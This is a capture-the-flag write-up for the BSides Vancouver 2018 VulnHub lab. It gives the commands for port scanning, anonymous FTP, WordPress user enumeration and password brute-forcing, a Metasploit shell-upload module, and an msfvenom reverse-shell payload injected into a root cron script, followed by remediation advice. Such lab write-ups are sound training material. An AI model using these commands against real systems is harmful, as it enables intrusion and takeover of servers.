





# BSides Vancouver: 2018 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.103 (host-only) |
| **Difficulty** | Beginner |
| **OS** | Linux |
| **Flags** | flag.txt in /root |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |

## Attack Summary

`nmap (FTP+SSH+HTTP)` → `FTP anon (user.txt.bk → username)` → `wpscan /backup_wordpress (enum users: john)` → `wpscan brute john:enigma` → `Metasploit wp_admin_shell_upload (Meterpreter)` → `cron root script` → `msfvenom reverse shell injected` → root

## Methodology

1. Full port scan to identify FTP, SSH, and HTTP
2. Anonymous FTP to retrieve exposed username file
3. WordPress user enumeration with wpscan
4. Password brute-force against WordPress admin (john)
5. Metasploit module for WordPress admin shell upload
6. Privilege escalation via writable cron script executed as root

---

## Step 1: Network Discovery and Port Scan

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -p- -A 192.168.1.103 --open
```

Open ports: 21 (FTP), 22 (SSH), 80 (HTTP).



---

## Step 2: Anonymous FTP

FTP allows anonymous login:

```bash
ftp 192.168.1.103
# Username: anonymous  Password: (blank)
ls
get user.txt.bk
quit
cat user.txt.bk
```

`user.txt.bk` contains a username found during later enumeration.

---

## Step 3: Web Enumeration — WordPress

Browse to `http://192.168.1.103/` — a WordPress installation is present at `/backup_wordpress/`.

Run wpscan to enumerate plugins, themes, and users:

```bash
wpscan --url http://192.168.1.103/backup_wordpress/ --enumerate t --enumerate p --enumerate u
```

Users found: **admin** and **john**.



---

## Step 4: WordPress Password Brute-Force

```bash
wpscan --url http://192.168.1.103/backup_wordpress --username john --wordlist /usr/share/wordlists/rockyou.txt
```

Password found: **enigma**

Credentials: `john:enigma`



---

## Step 5: Metasploit — WordPress Shell Upload

```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set rhost 192.168.1.103
set targeturi /backup_wordpress
set username john
set password enigma
exploit
```

Meterpreter session opened.



---

## Step 6: Privilege Escalation — Cron Script Injection

Inside the Meterpreter session, find a cleanup script executed by cron as root:

```bash
meterpreter> download cleanup /root/Desktop/
```

On the attacker machine, generate a Python reverse shell payload:

```bash
msfvenom -p cmd/unix/reverse_python lhost=192.168.1.108 lport=9876 R
```

Start a netcat listener:

```bash
nc -lvp 9876
```

Inject the payload into the cleanup script and upload it back:

```bash
# On attacker: append payload to cleanup script
meterpreter> upload /root/Desktop/cleanup /usr/local/bin/cleanup
meterpreter> cat /usr/local/bin/cleanup
```

When the cron job fires, a root shell connects back:

```bash
id
# uid=0(root)
cd /root
cat flag.txt
```



---

## Lessons Learned

1. **Anonymous FTP** exposing internal usernames aids further attacks — disable or restrict.
2. **WordPress user enumeration** is trivial with wpscan — the `author` parameter in URLs also leaks usernames.
3. **Weak WordPress admin passwords** against rockyou.txt fall in minutes — enforce strong passwords and 2FA.
4. **Metasploit wp_admin_shell_upload** requires only valid admin credentials — protect the WordPress admin panel with IP restrictions.
5. **Root-owned cron script writable to low-privilege users** is a direct privilege escalation vector — audit cron script permissions.

## Remediation

| Vulnerability | Fix |
|---|---|
| Anonymous FTP | Disable anonymous login; move sensitive files off FTP |
| WordPress user enumeration | Disable REST API user enumeration; use security plugins |
| Weak admin password | Enforce password policy + 2FA on WordPress admin |
| Arbitrary plugin upload | Disable plugin installation from admin panel in production |
| Writable cron script | Restrict cron script write permissions to root only |
